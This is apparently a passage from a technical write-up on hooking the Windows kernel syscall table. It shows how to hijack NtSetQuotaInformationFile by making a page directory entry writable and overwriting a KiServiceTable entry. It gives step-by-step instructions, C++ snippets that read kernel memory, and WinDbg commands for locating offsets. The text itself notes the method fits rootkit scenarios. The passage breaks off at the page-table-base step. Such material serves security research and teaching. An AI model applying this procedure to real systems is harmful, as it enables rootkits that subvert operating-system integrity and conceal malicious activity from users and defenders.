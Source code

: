 - The `PTE` is **not valid (zeroed)** — so protection is governed at the **Page Directory Entry (PDE)** level.
- The PDE flags include `R` (Read), but **not `W` (Write)**, making the page **read-only**.

> **Key Insight**: Since the page table entry is invalid, control of memory access is governed by the PDE. To gain write access, you must **flip the PDE's "Read-only" flag to "Write"**.

---

##### Summary

To hijack `NtSetQuotaInformationFile`:

1. **Get syscall number** using disassembly (e.g., `0x1B8`).
2. **Locate the target function pointer** in `nt!KiServiceTable + 4 * 0x1B8`.
3. **Compute the offset** for your replacement function (`<< 4`).
4. **Modify the PDE** to make the page writable.
5. **Overwrite the entry** in the service table with the new offset.

> ⚠️ This technique requires **kernel-level privileges** and direct manipulation of memory protection — typically achievable in exploit development or rootkit scenarios. Use responsibly and legally.

### Code Walkthrough

#### 1. **Find ntoskrnl Base Address**

```cpp
DWORD64 nt_base = (DWORD64)this->lpNtosBase;
```
You obtain the base of the Windows kernel in memory (I am using `EnumDeviceDrivers` for this).

#### 2. **Read Address of KiServiceTable**

```cpp
DWORD64 nt_KiServiceTable;
VirtualRead(nt_base + KeServiceDescriptorTableShadow_Offset_fromNT, &nt_KiServiceTable, sizeof(nt_KiServiceTable));
```
You read the hardcoded offset where `KiServiceTable` lives. This offset must match your target Windows build.

You can get the offset `KeServiceDescriptorTableShadow_Offset_fromNT` in a local kernel debug session in windbg

<pre>
2: kd> dqs nt!KeServiceDescriptorTableShadow L5
fffff802`e6bc5280  <mark>fffff802`e5cd97a0 nt!KiServiceTable</mark>
fffff802`e6bc5288  00000000`00000000
fffff802`e6bc5290  00000000`000001e9
fffff802`e6bc5298  fffff802`e5cd9f48 nt!KiArgumentTable
fffff802`e6bc52a0  fffff802`77dcc000 win32k!W32pServiceTable
2: kd> ? nt!KeServiceDescriptorTableShadow - nt
Evaluate expression: 16536192 = <mark>00000000`00fc5280</mark>
</pre>

#### 3. **Get PTE (Page Table Entry) Base Address in kernel memory.**
at `nt!MiGetPteAddress + 0x13` we can get the PTE Base address.
```
dq nt!MiGetPteAddress + 0x13
```
